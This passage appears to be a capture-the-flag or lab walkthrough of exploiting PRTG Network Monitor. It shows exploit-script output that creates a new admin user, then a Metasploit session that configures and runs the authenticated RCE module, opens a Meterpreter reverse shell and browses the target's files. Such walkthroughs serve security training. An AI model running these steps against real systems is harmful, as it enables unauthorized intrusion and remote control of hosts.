 ```
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 

```

MSF option:

```shell
[msf](Jobs:0 Agents:0) >> search PRTG

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/prtg_authenticated_rce

[msf](Jobs:0 Agents:0) >> use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set LHOST 10.10.14.28
LHOST => 10.10.14.28
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set RHOST 10.129.43.52
RHOST => 10.129.43.52
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set ADMIN_PASSWORD PrTg@dmin2019
ADMIN_PASSWORD => PrTg@dmin2019


[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> run

[*] Started reverse TCP handler on 10.10.14.28:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175686 bytes) to 10.129.43.52
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.129.43.52:50180) at 2022-09-11 12:49:58 +0200

(Meterpreter 1)(C:\Windows\system32) > cd C:\
 > cd Users
[-] stdapi_fs_chdir: Operation failed: The system cannot find the file specified.
(Meterpreter 1)(C:\Windows\system32) > cd ..
(Meterpreter 1)(C:\Windows) > cd ..
(Meterpreter 1)(C:\) > dir
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2016-11-21 03:46:10 +0100  $RECYCLE.BIN
100666/rw-rw-rw-  1024    fil   2019-02-03 05:18:08 +0100  .rnd
100666/rw-rw-rw-  1       fil   2016-07-16 15:10:17 +0200  BOOTNXT
040777/rwxrwxrwx  0       dir   2019-02-03 13:05:38 +0100  Documents and Settings
040777/rwxrwxrwx  0       dir   2016-07-16 15:18:03 +0200  PerfLogs
```